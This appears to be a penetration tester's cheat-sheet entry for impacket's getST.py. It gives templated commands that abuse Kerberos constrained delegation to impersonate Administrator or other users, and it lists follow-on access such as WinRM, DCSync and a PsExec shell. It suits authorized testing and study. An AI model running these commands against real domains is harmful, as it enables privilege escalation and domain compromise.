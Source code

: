 # getST (imp)

% impacket-kerberos, windows, kerberos, 88, delegation

## Silver ticket (constrained delegation with protocol transition)
#plateform/linux #target/remote  #cat/ATTACK/DELEGATION 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<target> -impersonate <target_user|Administrator> -dc-ip <dc_ip> '<domain>'/'<user>':'<password>'
```


## use silver ticket
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```
